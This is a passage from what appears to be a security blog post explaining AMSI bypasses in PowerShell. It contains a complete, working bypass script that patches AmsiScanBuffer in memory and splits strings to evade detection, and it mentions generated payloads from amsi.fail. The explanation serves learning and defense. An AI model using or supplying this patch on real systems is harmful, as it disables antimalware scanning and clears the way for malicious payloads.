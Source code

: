 For instance,
the following by [@_RastaMouse](https://twitter.com/_rastamouse)
is one of the most known bypasses:

```powershell
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

Here, you can see that strings like `amsi.dll` and
`AmsiScanBuffer` are split, trying to fool AMSI,
because the sole presence of one of those strings
will make AMSI show its teeth:

<div class="imgblock">

![AMSI in action](https://res.cloudinary.com/fluid-attacks/image/upload/v1653763507/blog/amsi-bypass-python/amsiscanbuffer1.png)

</div>

When all the bypasses are run in a `powershell.exe` session
which is protected by AMSI,
there is a race between offensive PowerShell payloads
and AMSI-backed EDR signatures.
Let's look at another example
using this payload generated by amsi.fail:

<div class="imgblock">
